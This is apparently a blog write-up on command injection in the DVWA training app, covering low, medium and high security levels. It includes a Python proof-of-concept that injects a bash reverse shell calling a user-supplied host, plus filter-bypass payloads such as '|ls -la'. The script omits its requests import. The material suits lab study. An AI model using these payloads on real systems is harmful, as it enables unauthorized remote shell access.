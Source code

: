 ```yaml
---
title: DVWA Command Injection
# author: Gauranga
date: 2024-03-06 04:45:00 GMT+5:45
categories: [Writing]
tags: [cybersecurity, DVWA, command injection, web security, vulnerability, exploitation, proof of concept]
pin: true
math: true
mermaid: true
image: https://cdn.acunetix.com/wp-content/uploads/2019/06/11110845/command-injection-910x478.png
#   path: /commons/devices-mockup.png
#   lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
#   alt: Responsive rendering of Chirpy theme on multiple devices.
---
```


## Low Level

- **Functionality Check**: Application accepts input in `ip` parameter, directly passed to `shell_exec()`.
- **Injection**: Concatenated `;ls -la` as payload.
- **Vulnerability**: Lack of input validation allows command execution.

![](/cj/Untitled.png)

```python
import sys

url = "<http://127.0.0.1:42001/vulnerabilities/exec/>"

headers = {
    "Cookie": "PHPSESSID=<id>; security=<>"
}

def main():
    try:
        ip = f"bash -c 'bash -i >& /dev/tcp/{sys.argv[1]}/{sys.argv[2]} 0>&1'"
        data = {
            "ip": ";" + ip,
            "Submit": "Submit",
        }
        response = requests.post(url, headers=headers, data=data)

        if "www-data" in response.text:
            print("success")
        else:
            print("failed")
    except Exception as e:
        print("An error occurred:", e)

if __name__ == "__main__":
    if len(sys.argv) != 3:
        print("Usage: python3 poc.py <lhort> <lport>")
        sys.exit(1)
    else:
        main()
```

- The script serves as a Proof of Concept (PoC) to exploit a command injection vulnerability in a web application.
- It demonstrates how an attacker can execute arbitrary commands on the target system through the vulnerability.
- By injecting specially crafted commands, the attacker gains unauthorized access to the system.
- This unauthorized access can lead to further exploitation, such as data theft, system compromise, or launching other attacks.
- It's crucial to emphasize that exploiting vulnerabilities without proper authorization is both illegal and unethical.

---

## Medium Level

- **Functionality Check**: Application continues to execute OS commands.
- **Input Validation**: Concatenated `|` as payload.
- **Bypass**: Used `|ls -la` payload for successful execution.

![](/cj/Untitled 1.png)

---

## High Level

- **Functionality Check**: Application still executes OS commands.
- **Tightened Validation**: Additional characters like `&`, ``, `$`, `(` replaced with space.
- **Bypass**: Identified space after `|` character, used `127.0.0.1|ls -ls` payload for success.

![](/cj/Untitled 2.png)

---